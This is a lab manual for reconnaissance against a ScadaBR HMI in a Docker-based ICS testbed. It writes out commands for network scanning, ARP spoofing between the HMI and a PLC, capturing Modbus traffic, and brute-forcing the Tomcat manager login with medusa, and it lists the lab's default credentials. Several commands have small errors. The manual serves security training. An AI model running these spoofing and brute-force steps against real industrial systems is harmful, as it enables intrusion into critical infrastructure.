

# Manual for Reconnaissance on ScadaBR

Most complex attacks complex or simple start with this phase, information gathering then crafting an exploit to counter attack. This can also be done in this simple testbed. Assuming the attacker is already in the network, he could gather a lot of information

## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

```
docker ps 
```

Displays the list of containers, you should have scadaBR running

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.10)
   - **Ports:** 10010:8080


## *Accessing ScadaBR on the browser*

1. **Tomcat Dashboard**:
   - URL: `http://172.18.0.10:10010`
   - **Username**: `admin`
   - **Password**: `password`

**NB:** ScadaBR is deployed on a tomcat server so we have to access Tomcat's dashboard to be able to deploy or run the ScadaBR.war file properly

2. **ScadaBR Dashboard**:
   - URL: `http://172.18.0.10:10010/scadaBR/login.htm`
   - **Username**: `admin`
   - **Password**: `admin`


- You could also access scadaBR with docker cli

bash
```
docker exec -it scadabr bash
```

- As in recconnaissance for plcs, you could use the same tools for network scanning, but here we're gonna do more

## *Accessing the attacker's machine via the docker cli*

bash:
```
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## Network scanning using tools presented earlier

When in the attacker's machine, you could install and run the tools you wish. For our examples, we used these tools for information gathering : 

Attacker's terminal
```
nmap -sn 172.18.0.0/24
arp-scan --interface=eth0 172.18.0.0/24
```




You could find some information on scadaBR found in the network

## Capture traffic between ScadaBR and other components like PLCs 

tcpdump and wireshark were used for this, they are very easy to install on linux based docker containers. The attacker needs to spoof both plc and scadaBR to be able to capture their traffic. Everything is done in the attackers terminal, you could open several terminals. 

### Spoofing using arpspoof

Attacker's terminal
```
arpspoof -i eth0 -t 172.18.0.10 172.18.0.11
arpspoof -i eth0 -t 172.18.0.11 172.18.0.10
```

- You have to do this on two different terminals. Afterword, you could run tcpdump command on another terminal

Attacker terminal
```
tcpdump -i eth0 port 502 -w modbus_traffic.pcap
```

## Vulnerability analysis on scadaBR 

- Using nikto, medusa and whatweb, we could expose some vulnerabilies on scadaBR since it is deployed on tomcat server
- Create a `passwords.txt` file for some potential scadaBR passwords

Attacker's terminal 
```
nikto - http://172.18.0.10:8080
medusa -h 172.18.0.10 -u admin -P passwords.txt -M http -m DIR:/manager/html -n 8080
whatweb http://192.168.1.10
```

- With this commands, we could have vital information on scadaBR for futur exploitation. 


- From the screenshot on medusa, you could identify the credentials of tomcat server 
